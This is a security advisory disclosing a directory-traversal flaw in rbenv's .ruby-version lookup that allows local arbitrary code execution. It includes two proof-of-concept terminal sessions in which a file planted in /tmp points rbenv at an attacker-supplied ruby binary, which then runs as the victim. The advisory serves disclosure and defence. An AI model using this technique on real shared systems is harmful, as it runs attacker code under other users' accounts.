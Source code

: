 The following issue constitutes a low-risk arbitrary code execution
vulnerability in rbenv.

No fixed version is currently available. An issue has been logged with the
project to address this vulnerability at
<https://github.com/rbenv/rbenv/issues/977>

rbenv manages multiple versions of Ruby, which are installed within a user's
home directory, and provides automatic switching between those Ruby versions
based on an application's needs.

<https://github.com/rbenv/rbenv/blob/master/README.md> says:

> At a high level, rbenv intercepts Ruby commands using shim executables
> injected into your PATH, determines which Ruby version has been specified by
> your application, and passes your commands along to the correct Ruby
> installation.

All examples below were captured using rbenv version 1.1.0-2-g4f8925a

CVE-2017-TBA rbenv Ruby specification directory traversal
---------------------------------------------------------

* OVE ID: OVE-20170303-0004
* Public disclosure date: 2017-03-04
* Affected versions: All?

When executing Ruby or a Ruby script, rbenv reads a file named `.ruby-version`
to determine the version of Ruby interpreter to execute. It will walk up the
directory tree until it finds such a file, or until it reaches `/`. If it does
not find such a file, it repeats the process starting from `$PWD`.
Documentation regarding this process is available at
<https://github.com/rbenv/rbenv/blob/master/README.md#choosing-the-ruby-version>

Once a Ruby version has been identified,
`~/.rbenv/versions/${VERSION}/bin/ruby` is used to provide Ruby.

The Ruby version specified in `.ruby-version` may contain path traversal
sequences, making it possible to specify that a `ruby` binary outside of the
user's home directory should be used to provide Ruby.

This is exploitable against local users in the following cases:

* Where a user executes a trustworthy Ruby script that is in a directory where
  the first `.ruby-version` encountered while walking upwards from the
  directory to the root directory is attacker-controlled. For example, an
  attacker may plant `/tmp/.ruby-version` to exploit a user who is executing
  `/tmp/foo/bar/fizzbuzz.rb`

* Where a user executes a trustworthy Ruby script while their `$PWD` is a
  directory where the first `.ruby-version` encountered while walking upwards
  from the directory to the root directory is attacker-controlled. For example,
  an attacker may plant `/tmp/.ruby-version` to exploit a user who is executing
  a Ruby script while they are `cd`'d to `/tmp/fizz/buzz/`

These attack scenarios are considered by the author to be highly unusual and
requires a high level of user interaction (executing Ruby scripts from, or
while `cd`'d to, a world-writable directory or a descendent thereof). This
issue is hence deemed to be low-risk.

### POC

#### Exploit a user running a Ruby script that is within `/tmp`

Create an innocent script:

```text
[justin@116e71652cf1 D ~]% mkdir -p /tmp/foo/bar/

[justin@116e71652cf1 D ~]% cat > /tmp/foo/bar/fizzbuzz.rb
#!/usr/bin/env ruby
puts 'This is fine'
^D

[justin@116e71652cf1 D ~]% chmod u+x /tmp/foo/bar/fizzbuzz.rb
```

Set the trap as `nobody`:

```text
[justin@116e71652cf1 D ~]% cat | sudo -u nobody tee /tmp/.ruby-version >/dev/null
../../../../../../../../../../../../tmp/badruby
^D

[justin@116e71652cf1 D ~]% sudo -u nobody mkdir -p /tmp/badruby/bin

[justin@116e71652cf1 D ~]% cat | sudo -u nobody tee /tmp/badruby/bin/ruby >/dev/null
#!/bin/sh
echo "Bad ruby executing as $(id)"
^D

[justin@116e71652cf1 D ~]% sudo -u nobody chmod -R a+rx /tmp/badruby

[justin@116e71652cf1 D ~]% ls -la /tmp/.ruby-version /tmp/badruby/bin/ruby
-rw-r--r-- 1 nobody nogroup 48 Mar  3 23:54 /tmp/.ruby-version
-rwxr-xr-x 1 nobody nogroup 45 Mar  3 23:55 /tmp/badruby/bin/ruby
```

Trigger the trap by executing the trustworthy script as `justin`:

```text
[justin@116e71652cf1 D ~]% /tmp/foo/bar/fizzbuzz.rb
Bad ruby executing as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

#### Exploit a user running a Ruby script while their `$PWD` is within `/tmp`

Create an innocent script within `~`:

```text
[justin@116e71652cf1 D ~]% mkdir -p ~/fizz/buzz

[justin@116e71652cf1 D ~]% cat > ~/fizz/buzz/foobar.rb
#!/usr/bin/env ruby
puts 'This is fine'
^D

[justin@116e71652cf1 D /tmp/fizz/buzz]% chmod u+x ~/fizz/buzz/foobar.rb 
```

`cd` to an empty directory within `/tmp`:

```text
[justin@116e71652cf1 D ~]% mkdir -p /tmp/fizz/buzz

[justin@116e71652cf1 D ~]% cd /tmp/fizz/buzz

[justin@116e71652cf1 D /tmp/fizz/buzz]% ls -la
total 8
drwxr-xr-x 2 justin justin 4096 Mar  4 00:00 .
drwxr-xr-x 3 justin justin 4096 Mar  4 00:00 ..
```

Don't bother setting the trap as `nobody` - the trap from the previous POC will
work just fine.

Trigger the trap by executing the trustworthy script as `justin`:

```text
[justin@116e71652cf1 D /tmp/fizz/buzz]% ~/fizz/buzz/foobar.rb 
Bad ruby executing as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

---

Justin Steven

<https://twitter.com/justinsteven>
